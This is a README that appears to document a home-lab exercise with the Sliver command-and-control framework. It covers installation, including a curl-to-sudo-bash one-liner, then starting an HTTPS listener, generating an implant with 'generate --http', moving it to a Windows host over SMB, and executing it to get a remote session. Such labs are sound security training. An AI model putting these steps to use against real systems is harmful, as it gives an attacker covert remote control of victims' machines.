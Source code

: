 <h1>Using Sliver</h1>

<h2>Description</h2>
Sliver is a free to use Command and Control (C2) Framework designed to provide advanced capabilities for covertly managing and controlling remote systems. Find out more at the official Sliver C2 site (https://sliver.sh/)
<br />


<h2>Languages and Utilities Used</h2>
 
- <b>Kali Linux</b>
- <b>Sliver</b>

<h2>Environments Used </h2>

- <b>Windows 10</b>
- <b>Ubuntu Server</b>

<h3>Installation</h3>
  - <b>Sliver can be installed using the following command <i>sudo apt install sliver</i></b><br />
  - <b>It can also be isntalled using the following: curl https://sliver.sh/install | sudo bash (Not Recommended)</b></br />

<h3>Running Sliver</h3>
After installing Sliver, you can run sliver-server just be running the <i>sliver</i> command. Alternatively, you can run the sliver client with the <i>sliver-client</i> command:<br />
<p align="center">
  <img src="./imgs/sliver_open.png"/>
  <img src="./imgs/sliver_client.png"/>
</p>
<br />
Now in our sliver-client window we can start an https listener by using the https command. We can confirm that it is listening by using the jobs command:<br />
<p align="center">
  <img src="./imgs/https_listener.png"/>
</p>
<br />
Next, we'll generate an implant using the following command:<i>generate --http <LISTENER_IPADDRESS></i>. This will generate an implant that will be hosted on our HTTPS listener:
<p align="center">
  <img src="./imgs/https_implant.png"/>
</p>
 <br />
Now we need a method of transferring the implant to the target host. For the sake of simplicity I'll use SMB to transfer the file:
<p align="center">
  <img src="./imgs/win_smb_req.png"/>
  <img src="./imgs/lin_smb_rep.png"/>
</p>
<br />
Now we can execute the payload and get an active session, that we can interact with, on our sliver client:
<p align="center">
  <img src="./imgs/exec_implant.png"/>
  <img src="./imgs/sliver_session.png"/>
</p>
<br />


 
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>

